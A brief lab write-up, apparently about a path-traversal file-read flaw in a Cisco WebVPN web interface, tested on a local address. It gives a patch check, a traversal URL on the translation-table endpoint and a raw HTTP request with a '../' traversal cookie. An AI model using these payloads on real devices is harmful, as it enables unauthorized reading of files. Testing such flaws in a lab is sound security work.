





## Verify that the vulnerability exists :

Downloaded the vulnerable code and compared it with the code from local environment.


When this path exists +CSCOE+/session_password.html this means the vulnerability isn't patched , and if the response is 404 that means the vulnerability is patched



## Exploiting the vulnerability on local environment:
Trying to download a file:

https://192.168.1.100/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../



Issue Request Exploit the vulnerability:

```
GET /+CSCOE+/session_password.html HTTP/1.1
Host: 192.168.1.100
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Cookie: token=../../../../../../+CSCOE+/wrong_url.html
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The file is read and stored in webvpn cookie and then deleted


```
https://192.168.1.100/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/wrong_url.html&default-language&lang=../

```

